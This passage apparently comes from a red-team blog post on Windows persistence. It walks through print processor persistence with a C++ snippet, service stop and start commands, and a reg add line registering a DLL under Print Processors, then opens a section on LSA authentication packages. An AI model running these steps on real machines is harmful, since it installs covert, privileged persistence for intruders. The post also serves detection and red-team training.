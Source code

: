 **PoC**

1. Create the DLL: it’s the same as the previous ones.
2. Find print processor directory: for this scenario we have created a cpp program to find the directory:

```
int main()

{

DWORD cbNeeded = 0;

LPBYTE pPrintProcessorInfo = nullptr;

GetPrintProcessorDirectoryA(NULL, NULL, 1, NULL, NULL, &cbNeeded);

pPrintProcessorInfo = new BYTE[cbNeeded];

GetPrintProcessorDirectoryA(NULL, NULL, 1, pPrintProcessorInfo, cbNeeded, &cbNeeded);

std::cout << (LPCSTR)pPrintProcessorInfo;

}
```

This prints the directory.

1. Place the DLL: the DLL should be placed in the retrieved directory:

![](https://hadess.io/wp-content/uploads/2023/11/image-43.png)

1. Set registry: the spooler service need to be stopped first
`net stop spooler`
Then set the registry:
`reg add “HKLM\SYSTEM\CurrentControlSet\Control\Print\Environments\Windows x64\Print Processors\hadess” /v “Driver” /d “persist.dll” /t REG_SZ /f`
And then starting it again:
`net start spooler`

And it is executed:

![](https://hadess.io/wp-content/uploads/2023/11/image-49.png)

## LSA
LSA or Local Security Authority is used for security management that applications can use to authenticate and log users on to the system.

**Do note that these may break the system.**

Authentication Package

Authentication packages are DLLs that are loaded by LSA and provide support for multiple logon processes and multiple security protocols. These must be implemented in a special way to be able to work properly. One example for the implementation can be found in atomic red team github repository: [https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.002/src/package/package.c](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1547.002/src/package/package.c) 
